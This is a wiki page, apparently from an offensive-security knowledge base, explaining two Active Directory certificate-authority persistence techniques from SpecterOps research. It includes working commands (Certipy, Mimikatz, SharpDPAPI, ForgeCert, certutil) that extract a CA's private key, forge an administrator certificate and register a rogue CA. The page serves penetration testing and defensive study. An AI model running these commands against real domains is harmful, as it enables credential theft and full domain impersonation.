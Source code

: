 ```yaml
---
authors: ShutdownRepo
---
```


# Certificate authority

## Theory

In [their research papers](https://posts.specterops.io/certified-pre-owned-d95910965cd2), [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin_) identified 2 domain persistence techniques relying on the role of the Certificate Authority within a PKI.

* Forging certificates with a stolen CA certificates (DPERSIST1)
* Trusting rogue CA certificates (DPERSIST2)

## Practice

### Stolen CA

> The Enterprise CA has a certificate and associated private key that exist on the CA server itself. ([Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf))

If an attacker obtains control over a CA server, he may be able to retrieve the private key associated with the CA cert, and use that private key to generate and sign client certificates. This means he could forge (and sign) certificate to authenticate as a powerful user for example.

::: tabs

=== UNIX-like

Extracting the DPAPI-protected CA cert private key can be done remotely from UNIX-like systems with [Certipy](https://github.com/ly4k/Certipy) (Python).


```bash
certipy ca -backup -ca "CA" -username "USER@domain.local" -password "PASSWORD" -dc-ip "DC-IP"
```


Then, forging (and signing) a certificate can be done as follows.


```bash
certipy forge -ca-pfx "CA.pfx" -upn "administrator@corp.local" -subject "CN=Administrator,CN=Users,DC=CORP,DC=LOCAL"
```


The certificate can then be used with [Pass the Certificate](../../movement/kerberos/pass-the-certificate.md).


=== Windows

Extracting the DPAPI-protected CA cert private key can be done remotely with [Seatbelt](https://github.com/GhostPack/Seatbelt) (C#).

```powershell
Seatbelt.exe Certificates -computername="ca.domain.local"
```

Alternatively, the builtin `certsrv.msc` utility can be used locally on the CA server.


```
Win+R > certsrv.msc > CA > right click > All Tasks > Back up CA... > selet "Private key and CA certificate" > Next
```


Alternatively, [Mimikatz](https://github.com/gentilkiwi/mimikatz) (C) can also be used for that purpose, locally.

```powershell
mimikatz.exe "crypto::capi" "crypto::cng" "crypto::certificates /export"
```

Alternatively, [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI) (C#) can be used for that purpose, locally, along with [openssl](https://www.openssl.org/) to transform the PEM into a usable PFX.

```powershell
SharpDPAPI.exe certificates /machine
```


```bash
openssl pkcs12 -in "ca.pem" -keyex -CSP "Microsoft Enhanced
Cryptographic Provider v1.0" -export -out "ca.pfx"
```


Then, forging and signing a certificate can be done with [ForgeCert](https://github.com/GhostPack/ForgeCert) (C#).


```powershell
ForgeCert.exe --CaCertPath "ca.pfx" --CaCertPassword "Password" --Subject "CN=User" --SubjectAltName "administrator@domain.local" --NewCertPath "administrator.pfx" --NewCertPassword "Password"
```


:::


### Rogue CA

> [!WARNING]
> > it is usually preferable for an attacker to steal the existing CA certificate instead of installing an additional rogue CA certificate ([Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf))

An attacker with sufficient privileges in the domain can setup a rogue CA and make the domain's resources trust it. Once the rogue CA is trusted, the attacker can forge and sign client certificates.

In order to register the rogue CA, the self-signed CA cert must be added to the `NTAuthCertificates` object's `cacertificate` attribute, and in the `RootCA` directory services store.

Registering the rogue CA can be done remotely with the `certutil.exe` utility from Windows systems.

```batch
certutil.exe -dspublish -f "C:\Temp\CERT.crt" NTAuthCA
```

Once this is done, a certificate can be forged, signed and used as explained above: [#stolen-ca](certificate-authority.md#stolen-ca)

## Resources

[https://posts.specterops.io/certified-pre-owned-d95910965cd2](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
